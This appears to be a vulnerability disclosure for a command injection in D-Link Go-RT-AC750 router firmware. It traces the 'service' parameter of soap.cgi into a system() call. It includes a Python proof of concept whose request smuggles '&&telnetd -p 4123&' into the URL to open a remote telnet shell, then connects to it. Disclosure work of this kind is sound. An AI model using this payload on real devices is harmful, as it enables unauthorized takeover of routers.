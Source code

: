 # Go-RT-AC750 Command Injection Vulnerabilit
## General Information
Vendor: D-Link
Affected Product: Go-RT-AC750
Firmware version: revA_v101b03
Vendor Homepage: https://www.dlink.com/en/consumer

## Vulnerability description
This vulnerability is found in function `soapcgi.main`. The function first try to get pointer to the `service` parameter in url and store it in `v14`:
![](assets/IMG_1.png)
![](assets/IMG_2.png)
Later, the parameter is joined into the format string via `sprintf` function and stored in to string `byte_435CD0`, which is used as the argument of the `system` function, causing the command injection. 
![](assets/IMG_3.png)

## PoC

```python
from socket import *
from os import *
from time import *

request = b"POST /soap.cgi?service=&&telnetd -p 4123& HTTP/1.1\r\n"
request += b"Host: localhost:49152\r\n"
request += b"Content-Type: text/xml\r\n"
request += b"Content-Length: 88\r\n"
request += b"SOAPAction: a#b\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
 
sleep(10)
system('telnet 192.168.0.1 4123')

```
![](assets/poc.png)




